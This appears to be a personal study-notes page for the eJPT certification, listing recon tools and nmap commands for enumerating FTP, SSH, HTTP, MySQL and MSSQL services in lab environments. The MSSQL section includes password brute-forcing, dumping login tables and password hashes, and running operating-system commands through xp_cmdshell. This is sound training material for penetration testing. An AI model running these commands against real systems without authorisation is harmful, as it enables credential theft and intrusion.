 ```yaml
---
title: 'Enumeration'
description: 'A resume from INE Learning Path for eJPT cert and some self notes to get success'
pubDate: 'May 12 2023'
slug: 'trip/enumeration'
---
```


## Passive information gathering

**WAF:** WAFWOOF Github tool.

Subdomain Enumeration

    - Gobuster
    - wfuzz
    - etc

**Google Dorks**

- http://exploit-db.com

- [Google Dorking](https://www.googleguide.com/advanced_operators_reference.html)

- [Google Hacking](https://www.exploit-db.com/google-hacking-database)

**Email Harvesting**

    - theHarvester
    # The tool gathers names, emails, IPs, subdomains, and URLs by using
    multiple public resources that include:

**Leaked password dbs**

    - haveibeenpwned.com
    - firepwd

## Active information gathering

DNS Zone Transfers

    - dnsenum
    - dig
    - fierce

    Host, Port, Services
    - nmap

### Info

Windows Recon: Nmap Host Discovery
Winwos Reconnaissance: SMB

## Footprinting and scanning

### Protocol

What protocol matches MAC addresses to IP addresses?

**arp**
**smb**
**icmp**
**http**

### Tools

    - Wireshark
    - ARP-SCAN
    - PING
    - FPING
    - NMAP nmap -sn 10.10.33.14/24
    - ZENMAP (GUI)
    - RustScan
    - Masscan

<img src="https://www.ictshore.com/wp-content/uploads/2016/12/1017-02-TCP_States_in_a_connection.png" width=864px style="background-color: #eee" >

## Enumeration

### FTP

File transfer protocol uses TCP port 21.

```bash
finger root@demo.xyz

# Find ftp potentially script from nmap.

ls -la /usr/share/nmap/scripts | grep ftp-*

# ftp target
anonymous login

$nmap target -p21 --script ftp-anon
```

### SSH

```bash
$nmap target -p22 --script ssh-hostkey --script-args ssh_hostkey=full
#ssh-rsa: .*?
#verify is student have password
$nmap target -p22 --script ssh-auth-methods
--script-args="ssh.user=student"

#attack

# How many “encryption_algorithms”?
nmap --script ssh2-enum-algos 192.201.39.3

# What is the ssh-rsa host key being used by the SSH server.
nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.201.39.3

# Which authentication method is being used by the SSH server for user “rosa”.
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=rosa" 192.201.39.3
```

### HTTP

http target

```bash
find directorios default
$dirb target

$nmap target -sCV -p80 --script http-headers
- http-enum
- http-methods
- http-webdav-scan

```

### SQL

```bash

$nmap target -sCV -p3306 --script=mysql-empty-password

$nmap target -sCV -p3306 --script=mysql-users --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-variables --script-args="mysqluser='root', mysqlpass=''"

$nmap target -sCV -p3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"


#WINDOWS

$nmap target -p1433 --script ms-sql-info

$nmap target -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433

$nmap target -p1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/common_password.txt

$nmap target -p1433 --script ms-sql-empty-password

$nmap target -p1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query='SELECT * FROM master..syslogins' -oN output

$nmap target -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

$nmap target -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"

```

